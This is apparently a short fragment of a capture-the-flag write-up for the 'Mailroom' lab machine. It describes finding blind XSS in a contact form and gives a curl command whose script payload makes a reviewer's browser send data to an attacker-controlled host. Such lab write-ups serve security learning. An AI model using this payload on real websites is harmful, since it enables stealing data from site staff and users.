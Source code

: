 * This could because of this message - "Please fill out the form below to send us an inquiry. Our advanced new AI will automatically read your inquiry and determine its urgency to supply the best response times for you."
* And another thing to note, every inquiry deleted after a minute or so.

# Foothold

## Blind XSS

* "Title" and "message" field are vulnerable for XSS 

![](screenshots/http-mailroom.htb-contact.php-XSS.png)

* and also trigger blind XSS.
  * Only "Pending manual review" inquiries get reviewed which triggers blind XSS.

```bash
curl -s -X POST 'http://mailroom.htb/contact.php' -d $'email=test%40test.com&title=This+is+a+very+important+mesage&message=This+is+a+very+important+mesage!</p><script>new+Image().src=\"http://10.10.14.2:8000/?c=\"%2bdocument.domain;</script><p>' 2&1>/dev/null
```

![](screenshots/http-mailroom.htb-contact.php-blind-XSS.png)
